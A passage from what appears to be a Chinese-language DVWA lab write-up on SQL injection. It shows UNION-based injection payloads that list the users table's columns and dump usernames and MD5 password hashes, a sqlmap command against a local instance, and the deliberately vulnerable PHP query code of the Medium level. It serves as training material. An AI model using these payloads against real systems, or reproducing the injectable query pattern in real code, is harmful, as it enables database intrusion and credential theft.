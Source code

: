 ```
COLLATE utf8_general_ci;
完整的语句为:$create_db = "CREATE DATABASE {$_DVWA[ 'db_database' ]} COLLATE utf8_general_ci;";
```

然后打开`dvwa`网页,在setup页面重新创建数据库即可.

<br>

继续刚才的注入: 上一步的操作查询到了名为`dvwa`的数据库中所有表的名字, 分别是`guestbook`和`users`

![image-20221003171955497](/images/ctf-web-dvwa/image-20221003171955497.png)

`users`表可能存储了用户的登录信息,所以接下来继续挖掘`user`表的信息:

```
1' and '1'='2' union select group_concat(COLUMN_NAME),2 from information_schema.COLUMNS where table_schema='dvwa' and table_name='users'#
实际执行的语句:
SELECT first_name, last_name FROM users WHERE user_id ='1' and '1'='2' union select group_concat(COLUMN_NAME),2 from information_schema.COLUMNS where table_schema='dvwa' and table_name='users'#
```

<img src="/images/ctf-web-dvwa/image-20221003172329006.png" alt="image-20221003172329006" style="zoom:67%;" />

那么现在想查询用户的登录密码: (存储在数据库中的是密码的md5值)

```
1' and '1'='2' union select user,password from users#
```

<img src="/images/ctf-web-dvwa/image-20221003172555074.png" alt="image-20221003172555074" style="zoom:67%;" />



另外,也可以使用`sqlmap`来检测

```
py sqlmap.py -u "http://127.0.0.1:8090/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=gvgndipck63rc8pjddt2ocmna4"
```

<img src="/images/ctf-web-dvwa/image-20221003180018715.png" alt="image-20221003180018715" style="zoom:67%;" />

<br>

## Medium

代码:

```php
<?php
if( isset( $_POST[ 'Submit' ] ) ) {
    // Get input
    $id = $_POST[ 'id' ];
    $id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die( '<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>' );
    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Display values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }
}
// This is used later on in the index.php page
```